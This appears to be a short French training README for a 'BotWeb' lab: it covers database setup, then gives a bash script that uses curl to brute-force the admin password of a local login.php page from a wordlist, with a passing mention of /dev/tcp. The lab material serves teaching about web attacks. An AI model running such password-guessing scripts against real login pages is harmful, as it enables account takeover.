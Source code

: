 # Péparation de l'environnement

## La base de données

Avec phpmyadmin, importer le fichier ```dbBotWeb.sql```.

## Les fichiers

Dans le dossier ```/Formation/Botweb/``` mettre les fichiers nécessaires.


La présentation représente une méthode avec **```/dev/tcp/server/port```**

# Méthod avec **```curl```**

```curl``` est une puissante commande qui permet de poster ou de consulter des données vers ou à partir d'un serveur web. https://en.wikipedia.org/wiki/CURL

## Programme bash
```bash
#!/bin/bash

user="admin"
#Main
while read pass
do
  echo "Testing $pass"
  response=$(curl -s -X POST 'http://localhost/Formation/BotWeb/login.php' \
              --data-urlencode "login=${user}" --data-urlencode "mp=${pass}")
  if [[ $response =~ ^.*Bienvenue[[:space:]]admin.*$ ]]
  then
    echo "Bingo: Mot de passe trouvé ($pass)"
    exit
  fi
done < $1
```
